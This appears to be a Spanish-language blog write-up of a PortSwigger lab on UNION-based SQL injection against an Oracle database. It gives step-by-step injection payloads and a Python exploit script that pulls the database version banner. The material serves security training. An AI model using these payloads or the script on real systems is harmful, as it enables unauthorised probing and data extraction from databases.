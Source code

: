 ```yaml
---
title: "07 SQL injection attack, querying the database type and version on Oracle"
collection: publications
category: portswigger
permalink: /publications/07_SQL injection attack, querying the database type and version on Oracle
excerpt: 'Este laboratorio contiene una vulnerabilidad de inyección SQL en el campo de categoría de producto. Para resolver el laboratorio, realizamos un ataque de inyección SQL basado en UNION que consulta el tipo y la versión de la base de datos en Oracle.'
date: 2024-12-01
#venue: 'Journal 1'
#slidesurl: 'http://academicpages.github.io/files/slides1.pdf'
#paperurl: 'http://academicpages.github.io/files/paper1.pdf'
citation: 'SQL injection attack, querying the database type and version on Oracle'
---
```


![logo]({{site.url}}/images/SQLi/sqli-7/logo.png)

## Descripción del laboratorio

![Descripción]({{site.url}}/images/SQLi/sqli-7/descripcion.png)

## Objetivo del laboratorio

Para resolver el laboratorio, visualice la cadena de versión de la base de datos.

## Determinamos que el campo si es vulnerable

```javascript
' or 1=1--
```

![Vulnerable]({{site.url}}/images/SQLi/sqli-7/vulnerable.png)

## Determinar el numero de columnas retornadas por la consulta

Miramos la cantidad decolumnas retornar hasta que arroje error. Vemos que nos arroja 2 columnas.

```javascript
' ORDER BY 1--
' ORDER BY 2--
```

![Order by]({{site.url}}/images/SQLi/sqli-7/order by.png)

## Miramos que columna es de tipo 'String'

Inyectamos en cada una de ellas mirando cual podemos inyectar 'String', en esta ocación que es BD oracle necesitamos llamar a la tabla DUAL

```javascript
' UNION SELECT 'A', NULL FROM DUAL--
' UNION SELECT NULL, 'A' FROM DUAL-- 
' UNION SELECT 'A', 'A' FROM DUAL--
```

![String]({{site.url}}/images/SQLi/sqli-7/campos string.png)

## Miramos la versión de la BD

[Hoja de Trucos](https://portswigger.net/web-security/sql-injection/cheat-sheet)

Ya que sabemos que es una BD de Oracle probamos averiguar la versión de Oracle

![DB version]({{site.url}}/images/SQLi/sqli-7/DB version.png)

```javascript
' UNION SELECT banner, NULL FROM v$version--
```

![version]({{site.url}}/images/SQLi/sqli-7/version.png)

# Resuelto

![Aprobado]({{site.url}}images/SQLi/sqli-7/aprobado.png)

# Codigo Python
```javascript
import requests
import sys
import urllib3
from bs4 import BeautifulSoup
import re
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}

def exploit_sqli_version(url):
    path = '/filter?category=Pets'
    sql_payload = "' UNION SELECT banner, NULL from v$version--"
    r = requests.get(url + path + sql_payload, verify=False, proxies=proxies)
    res = r.text
    if "Oracle Database" in res:
        print("[+] Found the database version.")
        soup = BeautifulSoup(res, 'html.parser')
        version = soup.find(string=re.compile(r'.*Oracle\sDatabase.*'))
        print("[+] The Oracle database version is: "+ version)
        return True
    return False

if __name__ == "__main__":
    try:
        url = sys.argv[1].strip()
    except IndexError:
        print("[-] Usage: %s <url>" % sys.argv[0])
        print("[-] Example: %s wwww.example.com" % sys.argv[0])
        sys.exit(-1)
    print("[+] Dumping the version of the database...")
    if not exploit_sqli_version(url):
        print("[-] Unable to dump the database version.")
```